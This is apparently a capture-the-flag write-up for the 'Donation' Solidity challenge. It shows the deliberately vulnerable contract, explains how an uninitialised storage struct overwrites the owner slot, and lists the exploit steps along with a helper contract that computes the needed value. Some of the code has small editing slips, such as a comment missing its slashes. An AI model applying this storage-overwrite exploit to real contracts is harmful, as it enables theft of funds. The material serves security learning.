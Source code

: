 # Donation

## topic

```solidity
pragma solidity ^0.4.21;

contract DonationChallenge {
    struct Donation {
        uint256 timestamp;
        uint256 etherAmount;
    }
    Donation[] public donations;

    address public owner;

    function DonationChallenge() public payable {
        require(msg.value == 1 ether);
        
        owner = msg.sender;
    }
    
    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function donate(uint256 etherAmount) public payable {
        // amount is in ether, but msg.value is in wei
        uint256 scale = 10**18 * 1 ether;
        require(msg.value == etherAmount / scale);

        Donation donation;
        donation.timestamp = now;
        donation.etherAmount = etherAmount;

        donations.push(donation);
    }

    function withdraw() public {
        require(msg.sender == owner);
        
        msg.sender.transfer(address(this).balance);
    }
}
```

## analyses

In this challenge we have to withdraw all the Ether from the contract. The only place where it is possible is:

```solidity
function withdraw() public {
  require(msg.sender == owner);
  msg.sender.transfer(address(this).balance);
}
```

But it requires to be the `owner`. So, we'll have to find a way to become the new owner.

There's some funny business going on. The `donation` variable has no location defined (memory/storage):

```solidity
Donation donation;
```

In this case, it assumes `storage` by default, leading to an unexpected behavior. It acts as a pointer to the storage, and it will write to the first slots when changing its attributes:

```solidity
struct Donation {
  uint256 timestamp;
  uint256 etherAmount;
}

Donation[] public donations;
address public owner;
```

But this syntax is not allowed in new compiler

```solidity
    function donate(uint256 etherAmount) public payable {
        amount is in ether, but msg.value is in wei
        uint256 scale = 10**18 * 1 ether;
        require(msg.value == etherAmount / scale);

        Donation donation;//But this syntax is not allowed in new compiler
        donation.timestamp = now;
        donation.etherAmount = etherAmount;

        donations.push(donation);
    }
```

Setting the `timestamp` will write to the `slot 0` => the array length, and setting `etherAmount` will write to the `slot 1` => the `owner`.

So, to set the `owner` we just have to set `etherAmount` to our address.

The only reamaining challenge is passing the `require(msg.value == etherAmount / scale);`We convert our a decimal number and divide by the `scale` (10^18 * 1 ether). 

if we call donate() twice, it will cover slot0 and slot1 again: first call=>a, second call=>b

![image-20230309160909771](11.Donation/image-20230309160909771.png)

if this state variable swaps the position ,the result is the same as before. `Donation donation` always points to slot 0 and slot 1.

```solidity
    Donation[] public donations;
    address public owner;
    //if this state valiable changes the position ,the result is the same as before
    address public owner;
    Donation[] public donations;
```

## solution 

1.get `donate(uint256)` 's parameter

```solidity
pragma solidity ^0.8.7;

contract tool{
    function calculateValue(uint256 _address) view public returns(uint256){
        //account from Remix: 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4
        return (uint256(uint160(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4))) / 10**36;//520786028573
    }//return 520786028573
}
```

2.call donate(uint256) with msg.value =520786028573 Wei and etherAmount = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4

3.call `withdraw()`

4.isComplete() returns true.

![image-20230309162324150](11.Donation/image-20230309162324150.png)

















